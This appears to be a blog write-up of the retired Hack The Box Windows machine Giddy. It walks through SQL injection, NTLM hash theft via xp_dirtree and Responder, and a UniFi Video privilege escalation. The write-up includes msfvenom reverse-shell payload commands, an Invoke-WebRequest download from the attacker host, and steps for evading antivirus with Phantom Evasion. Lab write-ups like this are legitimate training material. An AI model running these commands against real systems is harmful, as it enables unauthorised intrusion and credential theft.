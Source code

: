 ```yaml
---
layout: post
title: Hack The Box - Giddy
categories: hack-the-box
image: /hackthebox/giddy/0.png
---
```


<hr>
### Quick Summary
#### Hey guys today Giddy retired and this is my write-up. Giddy was a nice windows box , This box had a nice sqli vulnerability which we will use to steal ntlm hashes and login , Then the privilege escalation was a Local Privilege Escalation vulnerability in a software called Ubiquiti UniFi Video which also was a cool vulnerability , I had fun doing this box as it was a challenging one. It's a windows box and its ip is 10.10.10.104 , I added it to `/etc/hosts` as `giddy.htb`. Let's jump right in.
![](/images/hackthebox/giddy/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC giddy.htb`
![](/images/hackthebox/giddy/1.png)
#### nmap tells us that port 80 and 443 are open and running http , port 3389 is also open and it says "Microsoft Terminal Services", Let's check http
<br>
<hr>
### HTTP Enumeration
#### On http (port 80) there's only this picture :
![](/images/hackthebox/giddy/2.png)
#### Also the same picture on https (port 443)
![](/images/hackthebox/giddy/3.png)
#### Let's run gobuster with `directory-list-2.3-medium.txt` and see what we will get
`gobuster -u http://giddy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -to 250s`
#### Results :
```
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)                                                                                       
=====================================================                                                                                       
[+] Mode         : dir                                                                                                                      
[+] Url/Domain   : http://giddy.htb/                                                                                                        
[+] Threads      : 100                                                                                                                      
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                             
[+] Status codes : 200,204,301,302,307,403                                                                                                  
[+] Timeout      : 4m10s                                                                                                                    
=====================================================                                                                                       
2019/02/15 21:36:09 Starting gobuster                                                                                                       
=====================================================
/remote (Status: 302)
/mvc (Status: 301)
```
#### We got 2 sub directories `/remote` and `/mvc`
#### Let's take a look at `/remote` :
![](/images/hackthebox/giddy/4.png)
#### It redirects us to this page titled as `Windows PowerShell Web Access` , we don't have any credentials so we can ignore this for now and check `/mvc`
![](/images/hackthebox/giddy/5.png)
#### And we get this `ASP.NET` application
<br>
<hr>
### SQLI and getting User
#### After some regular enumeration we will find that when we click on a product name we get something like this :
![](/images/hackthebox/giddy/6.png)
#### The url has a parameter called `ProductSubCategoryId` , and if we try a single quote `'` :
![](/images/hackthebox/giddy/7.png)
#### We get an error saying "Unclosed quotation mark after the character string" so this parameter is sql injectable , let's try something like `1; UPDATE Product SET Name= ''`
![](/images/hackthebox/giddy/8.png)
#### And we see that it dumped the products, we can run responder and use `xpdirtree` to make it try to connect to us , you can read about `xpdirtree` [here](http://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html)
#### To do this let's run responder first `responder -I tun0`
#### Then let's use `xpdirtree` : `1; EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/giddy/9.png)
#### What is this doing is simply running a fake smb server with responder that steals ntlm hashes , then by using `xpdirtree` we make the server try to connect to our fake smb server. Let's check responder now :
![](/images/hackthebox/giddy/10.png)
#### We captured ntlm hash for a user called `Stacy` , Let's crack the hash with john
![](/images/hackthebox/giddy/11.png)
#### And the password is `xNnWo6272k7x` , let's use the PowerShell Web Access
![](/images/hackthebox/giddy/12.png)
#### We ge this web interface for powershell :
![](/images/hackthebox/giddy/13.png)
#### We can get the user flag now :
![](/images/hackthebox/giddy/14.png)
#### And we owned user !
<hr>
### unifivideo local privilege escalation
#### If we return to `Documents` again we will find a file called `unifivideo`
![](/images/hackthebox/giddy/15.png)
<br>
> UniFi Video is a powerful and flexible, integrated IP video management
surveillance system designed to work with Ubiquiti’s UniFi Video Camera product
line. UniFi Video has an intuitive, configurable, and feature‑packed user
interface with advanced features such as motion detection, auto‑discovery,
user-level security, storage management, reporting, and mobile device support.
<br>

#### A quick google search and we will find that an old version of unifivideo had a local privilege escalation vulnerability , check it [here](https://www.exploit-db.com/exploits/43390)
#### What's happening is , Upon the start of the service "Ubiquiti UniFi Video" it tries to execute a file called `taskkill.exe` in `C:\ProgramData\unifi-video\` but that file doesn't exist by default , if we have write permissions to that directory we can place our payload there as `taskkill.exe` then restart the service. And because the service runs with privileged permissions , it will be excuted as administrator.
#### Let's first create a payload with msfvenom :
`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.xx.xx LPORT=1337 -f exe > taskkill.exe`
![](/images/hackthebox/giddy/16.png)
#### We will set up the handler on metasploit :
`use multi/handler`
<br>
<br>
`set payload windows/meterpreter_reverse_tcp`
<br>
<br>
`set LHOST 10.10.xx.xx`
<br>
<br>
`set LPORT 1337`
#### Then we will run a simple http server with python to host the payload
`python -m SimpleHTTPServer 80`
#### After that we will download the file , since we are on powershell we can do this :
`Invoke-WebRequest -o taskkill.exe http://10.10.xx.xx/taskkill.exe`
#### Then we will stop the service :
`Stop-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/17.png)
#### Start it again :
`Start-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/18.png)
#### Let's check our listener
![](/images/hackthebox/giddy/19.png)
#### We didn't get a meterpreter session !
<br>
<hr>
### Evading anti-virus and getting root
#### We didn't get a meterpreter session because there's some kind of anti-virus blocking our payload , so what i'm going to do is to use a framework called `phantom evasion` , you can get it from [github](https://github.com/oddcod3/Phantom-Evasion)
![](/images/hackthebox/giddy/20.png)
#### We will use [1] windows modules , then [1] shellcode injection , [4] windows shellcode injection heapalloc , after that it will ask for the payload :
![](/images/hackthebox/giddy/21.png)
#### We will choose Msfvenom 
#### And for encoding we will choose [4] x86/xor_dynamic + Triple Multibyte-key xor:
![](/images/hackthebox/giddy/22.png)
#### It will ask for adding multi processes behaviour , stripping and signing the executable , we will say no to all of them , then finally we will have our payload.
#### We will repeat what we did with the other payload again , and let's check our listener : 
![](/images/hackthebox/giddy/23.png)
#### We got a meterpreter session and owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Ypuffy](/hack-the-box/ypuffy/)
#### Next Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
<hr>
